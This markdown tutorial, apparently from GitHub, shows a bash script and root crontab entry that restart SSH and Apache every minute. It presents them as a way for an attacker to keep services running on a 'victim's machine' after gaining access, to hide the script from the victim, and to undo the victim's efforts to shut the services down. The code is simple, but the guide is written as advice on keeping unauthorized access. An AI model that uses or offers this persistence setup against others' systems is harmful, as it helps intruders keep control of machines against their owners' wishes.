 # Bash Script to Restart Linux Server Services
#### (Use it for Education Purpose Only, and I will not be responsible for your illegal activities!)

If you manage to gain access to a victim's machine and you want keep servers like SSH and HTTP stay active victim decide to stop it running on the machine. Sometimes the reason can be unknow because the machine crash from time to time.

For this to work you will need to create a file and save to where you don't want the victim to notice it. After we created the script then create crontab to run the script every second or minute.

No more talk let get to work. I will use nano to write a file and you can also use vim editor if you are comfortable with it.

```
sudo nano /opt/launch-crashed-services.sh
```

Copy and paste this bash script on the file
```
#!/bin/bash

service ssh status | grep 'active (running)' > /dev/null 2>&1

if [ $? != 0 ]
then
        sudo service ssh restart > /dev/null
fi

service apache2 status | grep 'active (running)' > /dev/null 2>&1

if [ $? != 0 ]
then
        sudo service apache2 restart > /dev/null
fi
```
Save the file to ``` /opt/launched-crashed-services.sh ```

Then use chmod to give the file permission to run on command line
```
sudo chmod +x /opt/launch-crashed-services.sh
```

## Scheduling Service Restarts Using Crontab
- You might be disappointed to know that the victim has discover your activities inside thier machine and they decide to stop all of the server services to run on machine.
- Let crontab do the task by scheduling every a minute to run the bash script file we created before.

Edit your root crontab list using:
```
sudo crontab -e
```

Add the following line to the bottom of the root crontabl list:
```
*/1 * * * * /opt/launch-crashed-services.sh
```

##### Now if the victim attempt to stop all of the server service or service crashes, then the service will attempt to restart every one minute

Source: https://zeropointdevelopment.com/how-to-use-a-bash-script-to-restart-linux-server-services/
